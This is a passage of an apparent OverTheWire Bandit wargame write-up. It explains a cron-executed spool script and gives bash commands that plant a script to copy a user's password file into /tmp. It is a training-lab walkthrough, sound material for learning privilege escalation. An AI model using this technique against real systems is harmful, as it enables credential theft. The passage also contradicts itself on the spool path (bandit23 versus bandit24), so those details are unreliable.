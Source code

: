 ```bash
    fi
done
```

#### **What the Script Does**

1. **`myname=$(whoami)`**:
    
    - Retrieves the current username (in this case, `bandit23`).
        
2. **`cd /var/spool/$myname/foo`**:
    
    - Changes the working directory to `/var/spool/bandit23/foo`.
        
3. **`for i in * .*`**:
    
    - Loops through all files in the directory, including hidden files (`.` and `..` are excluded).
        
4. **`owner="$(stat --format "%U" ./$i)"`**:
    
    - Retrieves the owner of the file using the `stat` command.
        
5. **`if [ "${owner}" = "bandit23" ]; then`**:
    
    - Checks if the file is owned by `bandit23`. If so, it executes the file with a 60-second timeout.
        
6. **`timeout -s 9 60 ./$i`**:
    
    - Executes the file and kills it if it runs for more than 60 seconds.
        
7. **`rm -f ./$i`**:
    
    - Deletes the file after execution.

### **Exploiting the Script**

Since the script runs as `bandit24` and executes files owned by `bandit23`, you can place a script in `/var/spool/bandit24/foo` that copies the password for `bandit24` to a location where you can read it (e.g., `/tmp`).

#### **Steps to Exploit**

1. **Create a Script**:  
    Write a script that copies the password file for `bandit24` (`/etc/bandit_pass/bandit24`) to a location where you can read it (e.g., `/tmp`).
    
    Example script (`exploit.sh`):
```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/bandit24_password
```

2. **Place the Script in `/var/spool/bandit24/foo`**:

- Copy the script to `/var/spool/bandit24/foo` and ensure it’s owned by `bandit23`.

```bash
# Create the script
echo '#!/bin/bash' > /tmp/exploit.sh
echo 'cat /etc/bandit_pass/bandit24 > /tmp/bandit24_password' >> /tmp/exploit.sh

# Make it executable
chmod +x /tmp/exploit.sh

# Copy it to /var/spool/bandit24/foo
cp /tmp/exploit.sh /var/spool/bandit24/foo/
```
